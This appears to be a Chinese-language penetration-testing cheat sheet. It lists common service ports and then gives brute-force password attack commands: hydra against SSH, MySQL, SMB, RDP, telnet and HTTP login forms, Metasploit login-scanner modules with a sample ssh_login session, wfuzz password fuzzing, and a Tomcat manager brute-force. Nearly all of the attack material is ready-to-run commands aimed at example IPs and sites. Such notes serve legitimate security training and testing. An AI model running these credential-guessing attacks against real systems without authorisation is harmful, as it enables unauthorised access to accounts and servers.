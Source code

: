 # 常见服务端口
|服务| 端口| 
| --- | --- |
|web| 80 | 
|mysql |3306 |
|Microsoft SQL Server |1433|
|https | 443 |
|ftp |21 |
|ssh | 22| 
|dns| 53|
|tomcat| 8080|
|redis| 6379|
|rsync| 873|
|PostgreSQL |5432|
|cobaltstrike teamserver| 50050|
|smtp| 25|
|pop3 |110 |
|远程终端 rdp| 3389|
|smb |445 |
|rpc| 135 |
|imap| 143 |
|NetBIOS| 139|
|SMTPS| 465 |
|POP3S| 995 |
|mogodb| 27018 |
|memcached |11211 |
|telnet |23 |
|oracle |1521|

# [[hydra]]
##### 使用 hydra 穷举 ssh 服务
hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh -o ssh.txt -f
																			\ssh://192.168.1.104

#### 使用 hydra 穷举 mysql 服务
hydra ip mysql -l 用户名 -P 密码字典 -t 线程(默认 16) -vV
hydra ip mysql -l 用户名 -P 密码字典 -e ns -vV
hydra ip mysql -l 用户名 -P 密码字典 -e ns -vV -s 端口

#### 使用 hydra 穷举 smb 服务
hydra -l administrator -P 2019_top100.txt 192.168.52.6 smb -vV -f

#### 使用 hydra 穷举 http 服务
hydra -l admin -P 2019_top100.txt -vV -f \www.c1moon.com http-post-form
"/admin/index.php:user=^USER^&ps=^PASS^&action=login:login-error"

#### 使用 hydra 穷举 pop3 服务
hydra -L user.txt -P qweasd123 192.168.52.6 smtp-vV -f

#### 使用 hydra 穷举 rdp 服务
hydra ip rdp -l administrator -P pass.txt -V

#### 使用 hydra 穷举 http-proxy 服务
hydra -l admin -P pass.txt http-proxy://10.36.16.18

#### 使用 hydra 穷举 telnet 服务
hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V


xhydra
![[Pasted image 20231210204920.png]]
# metasploit
metasploit 是一个渗透测试集成套件 同样也有穷举模块
auxiliary/scanner/ftp/ftp_login
auxiliary/scanner/ssh/ssh_login
auxiliary/scanner/telnet/telnet_login
auxiliary/scanner/smb/smb_login
auxiliary/scanner/mssql/mssql_login
auxiliary/scanner/mysql/mysql_login
auxiliary/scanner/oracle/oracle_login
auxiliary/scanner/postgres/postgres_login
auxiliary/scanner/vnc/vnc_login
auxiliary/scanner/pcanywhere/pcanywhere_login
auxiliary/scanner/snmp/snmp_login
>[!TIP]
模块的用法
首先启动在终端下启动 msfconsole
use 使用 ssh_login 模块
use auxiliary/scanner/ssh/ssh_login
show options 查看模块的参数
RHOSTS 攻击的目标
PASS_FILE 密码字典
STOP_ON_SUCCESS 成功破解一个终止
THREADS 线程数
set 设置参数
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /home/kali/2019_top100.txt
PASS_FILE => /home/kali/2019_top100.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.52.13
RHOSTS => 192.168.52.13
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/ssh/ssh_login) > show options
设置好后用 run 或者 exploit 进行攻击



# 御剑RDP爆破工具使用
![[Pasted image 20231210205244.png]]
# wfuzz多线程穷举密码
>[!TIP]
wfuzz -c -z file,users.txt -z file,pass.txt --sc 200 http://www.site.com/log.asp?user=FUZZ&pass=FUZ2Z
wfuzz -c -z range,1-10 --hc=BBB http://www.site.com/FUZZ{something not there}
wfuzz --script=robots -z list,robots.txt http://www.webscantest.com/FUZZ
wfuzz -c -z file,2019_top100.txt --sc 302 -u
http://www.c1moon.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"
wfuzz -c -z file,2019_top100.txt --hc 404 --hh 1549 -u
http://www.c1moon.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"
wfuzz -c -w /home/kali/csdnpass.txt --hc 404 --hh 1549 -u
http://www.c1moon.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"


企业独立搭建的邮服 用 MailCracker 进行破解

[[CobaltStrike TeamServer 口令暴力破解]]


# 对 apache-tomcat 服务进行穷举
默认配置中会有一个向外网开放的 Web 应用管理
器，管理员可以利用它在服务器中启动、停止、添加和删除应用。
use scanner/http/tomcat_mgr_login
set PASSWORD 设置密码字典
set RPORT 8081 设置端口
set RHOSTS 192.168.52.6
exploit 攻击

超级弱口令检查工具

